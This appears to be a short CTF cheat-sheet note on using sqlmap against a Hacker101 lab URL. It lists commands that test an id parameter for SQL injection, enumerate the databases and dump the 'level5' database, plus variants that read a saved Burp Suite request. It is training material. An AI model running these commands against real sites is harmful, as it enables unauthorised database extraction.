

# Sqlmap (a tool for blind SQL injections)
python3 sqlmap.py https://1a232c644bde80b9ad4af76be42849f1.ctf.hacker101.com/fetch?id=1
python3 sqlmap.py https://1a232c644bde80b9ad4af76be42849f1.ctf.hacker101.com/fetch?id=1 --dbs
python3 sqlmap.py https://1a232c644bde80b9ad4af76be42849f1.ctf.hacker101.com/fetch?id=1 -D level5 --dump

-- // This is the same like above but way faster and uses a burp suite request instead.
sqlmap -r '/home/kali/sqlmap/photo-gallery-test.txt'
sqlmap -r '/home/kali/sqlmap/photo-gallery-test.txt' --dbs
sqlmap -r '/home/kali/sqlmap/photo-gallery-test.txt' -D level5 --dump

Can use | tee <output.file> to save the results.